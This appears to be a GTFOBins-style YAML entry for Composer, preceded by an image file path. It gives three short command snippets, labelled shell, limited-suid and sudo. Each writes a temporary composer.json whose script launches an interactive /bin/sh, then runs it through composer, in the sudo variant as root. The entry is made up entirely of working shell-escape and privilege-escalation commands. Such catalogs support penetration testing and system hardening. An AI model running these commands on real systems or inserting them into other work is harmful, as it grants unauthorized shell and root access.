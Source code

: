   shell:
    - code: |
        TF=$(mktemp -d)
        echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
        composer --working-dir=$TF run-script x
  limited-suid:
    - code: |
        TF=$(mktemp -d)
        echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
        ./composer --working-dir=$TF run-script x
  sudo:
    - code: |
        TF=$(mktemp -d)
        echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
        sudo composer --working-dir=$TF run-script x
---
